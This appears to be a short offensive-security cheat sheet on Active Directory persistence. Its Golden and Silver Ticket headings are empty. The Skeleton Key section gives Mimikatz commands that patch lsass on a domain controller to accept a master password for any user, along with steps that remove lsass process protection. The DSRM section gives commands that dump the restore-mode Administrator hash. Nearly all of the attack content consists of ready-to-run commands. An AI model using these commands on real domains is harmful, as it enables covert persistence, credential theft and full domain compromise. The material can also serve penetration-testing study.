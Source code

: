 ## Persistence on Active Directory 

### Golden Ticket



### Silver Ticket


### Skeleton Key
```powershell
# Patch a DC `lsass` process allowing to use any user with single password. DA privileges are required.
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname>

# Now can access any host in the domain with any user with password `mimikatz`
C:> Enter-PSSession -Computername <host> -Credential <domain>\<username>
```
```powershell
# If lsass is running proected, need to use mimikatz driver
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect process:lsass.exe /remove
mimikatz # misc ::skeleton
mimikatz # !

```
### DSRM (Directory Services Restore Mode)
- There is a local admin on every DC called `Administrator` whose passwd is the DSRM passwd

1. Dump DSRM password (DA privileges required)
```powershell
C:> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername <hostname>
```

2. Compare the Administrator hash with the Admin hash of this command
```powershell
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <hostname>
```
3. First one is the DSRM local Admin

### MORE





